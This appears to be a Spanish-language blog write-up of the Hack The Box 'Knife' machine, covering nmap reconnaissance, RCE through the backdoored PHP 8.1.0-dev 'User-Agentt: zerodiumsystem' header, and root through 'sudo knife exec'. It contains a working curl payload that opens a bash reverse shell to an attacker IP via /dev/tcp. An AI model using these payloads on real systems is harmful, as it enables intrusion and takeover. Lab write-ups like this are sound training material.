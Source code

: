 ```yaml
---
title: Knife - HTB Writeup
date: 2023-09-08 03:20:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup, HTB, Penetration Testing, Ethical Hacking, RCE, PHP Vulnerability]
image:
  path: /assets/img/post/knife/jimmy-chang-Q67YYjgXBfY-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Knife** es una máquina de dificultad `Easy` en la plataforma **Hack The Box**

En esta máquina explotaremos una **vulnerabilidad** de la versión `8.1.8-dev` de `PHP` mediante un `RCE`

## **Reconocimiento**

Realizaremos un escaneo con `nmap` para descubrir puertos abiertos en la máquina víctima

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
```

![img](/assets/img/post/knife/d39b61c6-b6af-410d-ac30-6014585c55d5.png)

Vemos que están abiertos el puerto `22` y el `80`

Vamos a realizar un escaneo de **servicios** y **versiones** sobre estos puertos:

```bash
nmap -sCV -p22,80 10.10.10.242 -oN versions
```

![img](/assets/img/post/knife/ba998012-681a-4d58-9014-5f242f7f0ec6.png)

Podemos ver que por el puerto `22` corre un servicio `SSH` y por el `80` un `HTTP`

Con `curl` haremos una petición en la web a ver que nos devuelve:

```bash
curl -i 10.10.10.242
```

![img](/assets/img/post/knife/5ede2a37-310b-4750-856d-78e1fb163cbe.png)

## **Explotación**

Como podemos ver en la cabecera del `output` que nos devuelve el `curl`, la web es lanzada por un servicio `PHP/8.1.0-dev`

Si buscamos información sobre esta **versión** de `PHP`, podemos ver que esta es vulnerable a un `RCE` *(Remote Command Execution)* utilizando la cabecera:

```bash
User-Agentt: zerodiumsystem(‘command’);
```

Podemos realizar una prueba para ver si el `RCE` da resultados:

> Inyectamos código en la máquina victima mediante el User-Agent

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"id\"');"

uid=1000(james) gid=1000(james) groups=1000(james)
```

Como podemos ver el `RCE` funciona, así que vamos a conseguir una `reverse shell`:

```bash
curl -X GET "http://10.10.10.242/" -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.8/443 0>&1\"');"
```

En otra consola nos pondremos en escucha con `nc` por el puerto que hayamos indicado:

```bash
nc -lvnp 443
```

Y ya tendriamos acceso a la máquina víctima:

![img](/assets/img/post/knife/1e64cb21-0ac4-46e6-8a25-3190cb332811.png)

## **Escalada de Privilegios**

Para realizar la escalada ejecutaremos

```bash
sudo -l
```

para ver los `binarios` que podemos ejecutar como `root`, los cuales en este caso son los siguientes:

![img](/assets/img/post/knife/f1d1188d-4b91-416c-a6b0-33458b263970.png)

Si ejecutamos `/usr/bin/knife` podemos ver que hace:

```bash
james@knife:/$ /usr/bin/knife -h       

knife exec [SCRIPT] (options)
```

Usaremos esto para conseguir una consola como root, para ello ejecutaremos el siguiente comando:

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'

uid=0(root) gid=0(root) groups=0(root)
```

Y ya tendremos acceso como root a la máquina

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*

